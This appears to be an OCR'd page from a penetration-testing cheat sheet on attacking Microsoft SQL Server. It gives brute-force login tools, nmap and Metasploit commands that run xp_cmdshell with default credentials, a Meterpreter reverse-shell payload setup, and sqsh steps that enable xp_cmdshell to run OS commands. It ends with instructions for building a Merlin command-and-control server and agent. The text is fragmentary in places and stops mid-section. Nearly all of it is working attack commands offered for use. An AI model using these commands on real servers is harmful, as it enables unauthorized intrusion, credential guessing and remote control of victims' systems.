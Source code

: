 msf > use auxiliary/admin/mssql/mssql_enum
msf > use auxiliary/scanner/mssql/mssql_login
Set it up PASS_FILE and RHOSTS.
PowerUpSQL

Invoke-SQLAuditWeakLoginPw
FScrack

python FScrack.py -h 192.168.1 -p 1433 -d pass.txt
Exploitation
Nmap

nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell 192.168.1.10
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.10
MetaSploit

msf > auxiliary/admin/mssql/mssql_exec
msf > auxiliary/admin/mssql/mssql_sql 
Rebound
msf > use exploit/windows/mssql/mssql_payload msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp 
MSDAT All the included above could be tested using MSDAT only.
Getting a shell

msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
mssql_shell python script
python mssql_shell.py script

Usage : mssql_shell Change MSSQL_SERVE , MSSQL_USERNAME and MSSQL_PASSWORD
Sqsh
Connect to the service

sqsh -S mssql -D MyDB -U DOMAIN\\testuser -P MyTestingClearPassword1
Then

exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
xp_cmdshell 'dir C:\'
go
C&C
Merlin
Compile and run server

$ cd merlin/cmd/merlinserver
$ go build
$ sudo ./merlinServer-Linux-x64 -i 192.168.1.11 -p 8443
Compile agent

$ cd merlin/cmd/merlinagent
$ sudo GOOS=windows GOARCH=386 go build
Generate Certificate
